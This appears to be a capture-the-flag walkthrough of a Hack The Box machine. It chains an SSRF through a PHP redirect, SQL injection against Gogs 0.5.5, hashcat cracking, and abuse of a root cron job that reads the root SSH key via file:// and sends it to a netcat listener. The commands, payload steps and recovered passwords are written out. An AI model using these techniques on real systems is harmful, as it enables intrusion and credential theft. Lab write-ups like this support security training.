# Reconnaissance

Let's start by checking which TCP ports are open

```bash
nmap -sS -p- --open --min-rate 5000 10.129.34.90 -vvv -n -Pn -oG allports.txt 
```

```bash
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

As we can see, we’ve detected two services: **SSH** and **HTTP**

Now let's perform service version detection on the open ports

```bash
nmap -sVC -p22,80 -Pn 10.129.34.90
```

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 32:b7:f4:d4:2f:45:d3:30:ee:12:3b:03:67:bb:e6:31 (RSA)
|   256 86:e1:5d:8c:29:39:ac:d7:e8:15:e6:49:e2:35:ed:0c (ECDSA)
|_  256 ef:6b:ad:64:d5:e4:5b:3e:66:79:49:f4:ec:4c:23:9f (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HTTP Monitoring Tool
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Since we don't have credentials yet, let's take a look at the **HTTP** service

# Testing the Web Service Tool

And this is what we have



This web service is a **tool** that allows us to remotely check whether a web service is available

If we take a closer look at the options this tool offers, we see that there are three fields: **Payload URL**, **Monitored URL**, and **Interval**

**Payload URL** = This is where we'll receive the information via a POST request

**Monitored URL** = This is to check if a web server is available

**Interval** = This represents Cron Jobs, and it is the interval at which the request will be executed.

To verify whether this tool actually works, we're going to set up a local `Python` web server and then use `netcat` to open a listening port to see 
if we receive the information via a **POST** request

```bash
mkdir www
cd !$
echo "This is a test" > index.html
```

Now let's start the web server

```bash
sudo python3 -m http.server 80
```

Now let's open another terminal and set up a listening port to receive the information via **POST**

```bash
nc -nvlp 5346
```

Like this:



Once everything is set up, we go to the tool and submit the request





As we can see, we receive a **GET** request to our web server, and then, through the listening port, we receive the information via **POST**

At this point, we can see that when the listening port receives the information, the body of the web service we are specifying in the **Monitored URL** field is displayed

This may lead us to consider the possibility of a potential **SSRF** (Server-Side Request Forgery) attack

First of all, let's determine whether there is a service running on the machine that we cannot access remotely. To do this, we'll use `nmap`

```bash
sudo nmap -sS -p- --min-rate 5000 10.129.34.90 -vvv -n -Pn
```

And we were able to identify a service that is running on the machine

```bash
PORT     STATE    SERVICE REASON
22/tcp   open     ssh     syn-ack ttl 63
80/tcp   open     http    syn-ack ttl 63
3000/tcp filtered ppp     no-response
```

# SSRF (Server-Side Request Forgery)

Instead of entering our IP address which points to our web server in the **Monitored URL** field, we could try entering **"localhost"**.
That way, we would be pointing to the victim's machine, since the tool's request is sent from that machine itself



But the web server is properly sanitized, so we can't redirect to localhost

If we can't access it that way, we can represent localhost in hexadecimal: **(0x7f000001)**

Or we could represent it in decimal form: **(2130706433)**

But in this case, neither of those two methods will work

Now that we know this, let's try running a **PHP** server

```bash
nvim index.php
```

Now we're going to create a **PHP** file that redirects to localhost and points to the internal service on port 3000, and if the victim machine runs our code, 
we'll be able to see the internal service

```php
<?php
  header("Location: http://127.0.0.1:3000");
?>
```

Once the file is created, we open the **PHP** server

```bash
sudo php -S 0.0.0.0:80
```

Now that the **PHP** server has been created and the listening port has been opened, we send the request using the web server tool





And as we can see, we received something...

To view this information in plain text, we should first copy all the information and paste it into a file. 
Then, we should use the `jq` utility and filter using **.body** to extract the body of the message, and then use the **-r** flag to display it in raw format.

```bash
cat data | jq .body -r
```

By doing this, we will extract the **HTML** in raw format from the service that was running locally on the victim's machine on port 3000

All that's left to do to view the service correctly on our machine is to copy all the **HTML** content we were able to extract and paste it into an **index.html** file

And then set up an **HTTP** server to host the **.html** file containing the code we managed to extract, so we could view the content of the web page that was being 
hosted locally on the victim's machine



The next step would be to see if there is an exploit available for that service, in this case **Gogs v0.5.5** 

```bash
searchsploit gogs
```

```bash
Gogs - 'label' SQL Injection                                                    | multiple/webapps/35237.txt
Gogs - 'users'/'repos' '?q' SQL Injection                                       | multiple/webapps/35238.txt
gogs 0.13.0 - Remote Code Execution (RCE)                                       | multiple/remote/52348.py
```

```bash
searchsploit -x 35238
```



And as we can see, this **SQL injection** falls within the range of versions that we can exploit

# SQL Injection

Now let's look for the **PoC** for that exploit to see how it works and test it



To test this **SQL injection** locally, we're going to download the same version that's being used on the victim machine running the **Gogs** service

https://github.com/gogs/gogs/releases/tag/v0.5.5

Once you've cloned the repository with the correct version, navigate to the gogs folder and run gogs web

```bash
cd gogs
```

```bash
./gogs web
```



Now we're ready to test for **SQL injection**

Then we run the **SQL query** provided by the exploit's **PoC**



And we received something, but it doesn't provide us with any important information, so we're going to create our own **SQL query** 
to extract data that will give us access to the victim's machine

To create our own query, the first step would be to intercept the request using `Burp Suite`

```bash
burpsuite 2>/dev/null & disown
```



Once the request has been intercepted, we send it to the **Repeater** using **Ctrl + R**

Before we create our **SQL query**, let's take a closer look at the exploit we're using to exploit this **SQL injection**



As we can see, if we replace “repos” with “users,” we can identify usernames

Now that we're ready, let's get started with the **SQL injection**!

As I mentioned earlier, the request has been sent to the Repeater, so we will be operating in that section

The first thing we're going to do is sort the data based on a nonexistent column



As we can see, the server returns a message saying, **“1st ORDER BY term out of range - should be between 1 and 27”**

So now, instead of 100, we're going to specify 27 columns



And now we haven't received any errors

Now that we know the exact number of columns, let's use a **UNION SELECT** to retrieve values from those columns that represent a specific value



As we can see, column 3 represents the username, using the output from the third column, we'll try to extract values

Since we don't know the default names assigned to the columns, we're going to search the **Gogs** files locally to see how the database is structured

```bash
cd gogs
```

```bash
find . | grep "db$"
```

We'll be able to locate a **gogs.db** file. Since this is a binary file, we can't use `cat` to open it, so we'll use `strings` instead

```bash
strings gogs.db
```



We copy that query and save it, then replace the commas with line breaks so we can view it correctly

```bash
nvim query
```



```bash
cat query | tr ',' '\n'
```



And as we can see, there are two columns that catch our attention: **“passwd”** and **“salt”**

Now that we know this, let's start with **passwd** to see if we can extract a password



And as we can see, we were able to extract a hashed password

Now we can combine **passwd** with **salt** to have both values when cracking the hashed password



But the problem here is that we don't know what kind of hash is being applied

So let's take a look at the code we have on Gogs' GitHub

To do that, let's take a look at what the project looked like before




Next, we'll go to the **models** section, *user.go**, and there we'll see what format the password has been hashed in



Passwords use a **PBKDF2 salt** and a **SHA-256 hash**

# Password cracking

Now comes the part where we're going to crack the hashed password

First of all, let's use `Hashcat` to perform this cracking operation

```bash
hashcat --example-hashes | grep -i "PBKDF2"
```



And this is the one we're interested in: "PBKDF2-HMAC-SHA256" 

Then we performed a more specific search to find the **Hash Mode** and **Example.Hash**

```bash
hashcat --example-hashes | grep -i ": PBKDF2-HMAC-SHA256" -A 13 -B 1
```



Now our goal is to represent the hash as specified in **Example.Hash**

To do this, we're going to create a file to store Example.Hash and the salt/hash we were able to extract using the **SQL injection**



Since we need it to be in **Base64** to crack it, we'll provide the hash and salt as specified in **Example.Hash**, except that we'll 
convert both the **salt** and the **SHA-256 hash** to **Base64**

First, let's start with the hash

```bash
echo -n "de584d4ac253de57dcd5628082126b9d0d5ef791cb1874ac6ac36b7ebafe4288467c74530d84b49c60811dacbb5ee63277db" | xxd -ps -r | base64
```

Now with the salt

```bash
echo -n "bmzH2leheI" | base64
```

Once we've converted the two values to **Base64**, we'll specify them as shown in **Example.Hash**

The only value we need to change is **1,000** to **10,000**, since 10,000 is the number of iterations performed to hash that password



Now that we have this hash, we're going to crack it on our main operating system using hashcat 
**(it's best to use our main operating system to crack passwords since hashcat uses a lot of hardware)**

Copy and paste the hash into **Notepad**, then install **Hashcat** & **rockyou.txt** for your operating system, **open a terminal**, and run:

```cmd
.\hashcat.exe ..\hash.txt rockyou.txt
```

Once the password has been cracked, it will display the hash followed by an “=” and the password in plain text

At this point, we have everything we need to attempt to gain access to the victim machine by combining **SSRF** with **SQL injection**. 
We will then crack the password on the actual service and use any remote services available to us to connect using the cracked credentials

So, let's modify the **PHP** file with the **SQL query** we created locally using `Burp Suite`



Then, just as we did before, we opened a listening port using `netcat` and also set up a **PHP** server where our code will run, redirecting to internal 
port 3000 on the victim machine with the **SQL query** we created







And as we saw, we were able to extract a **username**, **password** and **salt**, now all that's left is to apply the **password cracking phase** in the same way we did before

Once we've run the cracking phase with `Hashcat`, it gives us the password **“february15”** in plain text

Now that we have credentials, we can try to connect using the **SSH** service we identified during the **reconnaissance phase**

```bash
ssh susanne@10.129.34.90
```

Password = february15

Once we have access, run `export TERM=xterm` so we can use **Ctrl + L**

Now comes the **privilege escalation** phase

# Privilege Escalation

First, we log in knowing that the machine has a web service, so we navigate to **var/www/html**

```bash
cd /var/www/html
```

And we list the files that are inside

```bash
ls -la
```



And it looks like we've managed to find a **.env** file

The **.env** file contains environment variables with sensitive data and configurations that are separate from the main code



Now we can use the credentials stored in **DB_USERNAME** and **DB_PASSWORD** to connect to **MySQL**

```bash
mysql -u laravel -p
```
Password = MYsql_strongestpass@2014+

After listing all the databases along with their respective tables and columns, I didn't find any information, so let's move on to the next step

What we can do now is list the tasks that are running on the system at regular intervals, or we can simply create a **Bash** script to automatically perform that process

To do this, we're going to create a file in the /tmp directory

```bash
cd /tmp
nano pseo.sh
```

And this is the script

```bash
#!/bin/bash

function ctrl_c(){
	echo -e "\nQuitting...\n"
    exit 1
}

# Ctrl + C
trap ctrl_c SIGINT

old_process=$(ps -eo user,command)

while true; do
	new_process=$(ps -eo user,command)
	diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "pseo.sh|command|kworker"
	old_process=$new_process
done
```

```bash
chmod +x pseo.sh
./pseo.sh
```



Taking a look at the output of the script we ran, we see that the root user is running `artisan` with **PHP**, but since we don't know what it 
does or what it is, let's take a closer look

```bash
cd /var/www/html
cat artisan
```

But unfortunately, we were unable to find any important information

But after the **PHP** file, it runs `schedule:run`, so let's take a look at that too

```bash
cd app
```

```bash
grep -r -i "schedule"
```



And it looks like “schedule” is located in the Console directory, inside the **Kernel.php** file

```bash
cd Console
cat Kernel.php | less -S
```



This is the key part of the code:

/*  Run your task here */
                HealthChecker::check($task->webhookUrl, $task->monitoredUrl, $task->onlyError);


Let's find out what **“check”** does

```bash
grep -r -i "check"
```



```bash
cat /var/www/html/app/Http/Controllers/HealthChecker.php | less -S
```



As we can see, `file_get_contents` is being used in the **“Monitored URL”** field

If sanitization is not being applied, this is a serious problem, since we can list internal files on the machine under the **root** user

Using that information, let's try to list the **/etc/passwd** file on the victim machine



Unfortunately, it doesn't work, but if we remember correctly, we have credentials for the **MySQL** database, and if we create a webhook, it would be stored in the database

With that in mind, let's connect to the database

```bash
mysql -u laravel -p
```

Password = MYsql_strongestpass@2014+

```mysql
show databases;
use laravel
show tables;
```



Here we see the **tasks** table, as we saw earlier, this table stores the request we sent when we create a webhook

To verify that, let's create it and list the content of this table





**(In this screenshot, I have a different IP address because I had restarted the VPN)**

And within the database, we can modify the query so that it lists the files we want, in this case the root user's **id_rsa**

```mysql
update tasks set monitoredUrl = 'file:///root/.ssh/id_rsa';
```



So, we open a listening port, then create a webhook and modify the query so that when it runs every minute as we specified with * * * * *,
it will execute whatever we’ve specified, in this case listing the contents of the root user’s id_rsa file. All this information will be sent to the port 
we’re listening on with netcat, allowing us to elevate our privileges to root



And here we received the **root** user's **id_rsa**, now we'll copy it and save it to a file

Then, using `jq`, we convert it to raw format so that the key is properly structured, and finally, we save the file containing 
the key to a file named **id_rsa**, to which we must assign **600 permissions** for it to work correctly

```bash
cat key | jq -r > id_rsa
chmod 600 id_rsa
```

Now that we have the root user's **id_rsa**, all we need to do is log in as the root user via the **SSH** service

```bash
ssh -i id_rsa root@10.129.34.90
```



**(In the screenshot, I'm connected to a different IP address because I had to restart the HTB machine due to technical issues)**

And finally, **we've gained root access**
